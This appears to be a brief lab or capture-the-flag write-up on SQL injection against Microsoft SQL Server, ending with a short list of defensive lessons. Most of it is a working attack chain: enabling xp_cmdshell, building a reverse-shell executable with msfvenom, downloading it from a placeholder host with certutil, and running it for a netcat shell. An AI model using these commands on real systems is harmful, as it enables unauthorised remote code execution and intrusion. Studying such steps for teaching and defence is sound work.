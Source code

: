 ## Test for sql injection
`age='` throws an error

## Calling stored procedures
Microsoft sql has `xp_cmdshell`

## Enable xp_cmdshell
`EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;`
`EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;`

## Reverse Shell
`certutil.exe` helps us by making https connections to download our payload
- `msfvenom -p windows/x64/shell_reverse_tcp LHOST=YOUR.IP.ADDRESS.HERE LPORT=4444 -f exe -o reverse.exe`
- Host file on server `python3 -m http.server`
- `Exec xp_cmdshell 'certutil -urlcache -f http://LOCAL_IP:8000/reverse.exe C:\Windows\Temp\reverse.exe'`
- Start netcat listen
- run file with `Exec xp_cmdshell 'C:\Windows\Temp\reverse.exe`

## Lessons learned
### Input validation: 
Sanitise and validate all user-supplied input to ensure it adheres to expected data types and formats. Reject any input that doesn't meet validation criteria.

### Parameterised statements: 
Use prepared statements and parameterised queries in your database interactions. Parameterised queries automatically escape user input, making it difficult for attackers to inject malicious SQL.

### Stored procedures: 
Use stored procedures to encapsulate your SQL logic whenever possible. This reduces the risk of SQL injection by separating user input from SQL code.
